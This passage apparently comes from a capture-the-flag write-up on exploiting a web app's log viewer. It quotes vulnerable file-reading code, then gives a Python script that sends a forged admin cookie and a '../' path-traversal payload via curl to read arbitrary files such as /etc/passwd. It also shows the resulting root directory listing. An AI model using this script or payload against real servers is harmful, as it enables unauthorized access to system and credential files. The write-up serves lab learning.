 ```python
```

Which give us the impression of being able to read files and directories. Let's have a look at `admin_list_log` and `admin_view_log` in `utils.py`:

```python
def admin_view_log(filename):
    if not path.exists(f"logs/{filename}"):
        return f"Can't find {filename}"
    with open(f"logs/{filename}") as out:
        return out.read()

def admin_list_log(logdir):
    if not path.exists(f"logs/{logdir}"):
        return f"Can't find {logdir}"
    return listdir(logdir)
```

And sure enough, we can. Now, what's interesting is it reads from `/logs`, yet it doesn't seem to prevent us from traversing directories, such as with `../`. Let's test it.

First, let's quickly make a script to easily read files and directories:

```python
#! /usr/bin/python

from sys import argv
from os import system

cookie = 'dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAxg7dXNlcm5hbWU9YWRtaW47c2VjcmV0PWYxZmMxMjAxMGMwOTQwMTZkZWY3OTFlMTQzNWRkZmRjYWVjY2Y4MjUwZTM2NjMwYzBiYzkzMjg1YzI5NzExMDU7.Uo1e9uzmx1WjBbtdDFbO6PwIy/u3xg2HTdjZu0haeAU='

command = 'curl "http://10.10.10.195/admin/log/view" --cookie "%s" --data "logfile=../../../../../../../../../%s" --output -'  % (cookie, argv[1])

system(command)
```

This just makes a `post` request to the site with `logfile`, which we know from `logfile = request.form.get("logfile")`, and we set this to the file we want to read

\(same concept for listing, just change `logfile` to `logdir`, and `/admin/log/view` to `/admin/log/dir`\)

So now we can run from command line:

```text
$ ./ls.py /
['tmp', 'lost+found', 'root', 'initrd.img', 'usr', 'boot', 'vmlinuz.old', 'home', 'dev', 'lib', 'media', 'srv', 'sbin', 'vmlinuz', 'lib64', 'etc', 'bin', 'run', 'snap', 'sys', 'opt', 'cdrom', 'proc', 'mnt', 'initrd.img.old', 'var']
```

And now we have directory traversal. We can now read `/etc/passwd` to see what users there are, and we find `user`:

